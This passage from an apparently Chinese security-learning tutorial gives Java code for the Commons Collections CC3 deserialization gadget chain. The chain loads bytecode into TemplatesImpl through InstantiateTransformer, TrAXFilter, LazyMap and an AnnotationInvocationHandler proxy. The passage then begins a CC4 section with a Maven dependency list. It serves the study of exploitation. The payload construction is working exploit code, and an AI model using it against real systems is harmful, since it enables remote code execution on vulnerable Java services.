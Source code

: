 ```java
TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
                };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);
        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cls  =  c.getDeclaredConstructor(Class.class,Map.class);
        cls.setAccessible(true);
        InvocationHandler h = (InvocationHandler) cls.newInstance(Override.class,lazyMap);
        Map maproxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
        Object o = cls.newInstance(Override.class,maproxy);
```

其实就是利用了`InstantiateTransformer`可以执行构造方法拼接了一下后续的动态类加载这样的思路

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-d31d371d706e7cab894534b6c563f43fd98a0765.png)

‍

‍

‍

# CC4

从CC4开始就要换依赖了

```xml
    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
    </dependencies>
```
